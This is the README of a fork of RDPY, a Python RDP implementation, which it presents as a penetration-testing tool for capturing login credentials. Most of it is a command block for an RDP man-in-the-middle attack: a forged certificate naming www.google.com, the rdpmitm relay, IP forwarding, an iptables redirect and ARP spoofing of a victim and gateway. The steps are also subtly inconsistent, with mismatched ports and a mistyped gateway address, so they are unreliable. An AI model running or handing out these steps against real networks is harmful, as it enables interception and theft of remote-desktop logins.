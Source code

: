 # RDPY [![Build Status](https://travis-ci.org/citronneur/rdpy.svg?branch=dev)](https://travis-ci.org/citronneur/rdpy) [![PyPI version](https://badge.fury.io/py/rdpy.png)](http://badge.fury.io/py/rdpy)

Remote Desktop Protocol in twisted python.

RDPY is a pure Python implementation of the Microsoft RDP (Remote Desktop Protocol) protocol (client and server side). RDPY is built over the event driven network engine Twisted. RDPY support standard RDP security layer, RDP over SSL and NLA authentication (through ntlmv2 authentication protocol).
  
This is a branch from the original version of RDPY. It is meant to be used by  penetration testers to capture login credentials in an internal penetration test.   
This is still a work in progress
    
Basic steps for using rdpy-rdpmitm.py  
```  
openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout mysitename.key -out mysitename.crt -subj '/C=US/ST=Oregon/L=Portland/CN=www.google.com’
rdpy-rdpmitm.py -o /tmp -l 3389 -k mysitename.key -c mysitename.crt -r x.x.x.x:3389
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A PREROUTING -p tcp --destination-port 3389 -j REDIRECT --to-port 3390
arpspoof -i eth0 -t 172.16.173.132 162.16.173.2 
```
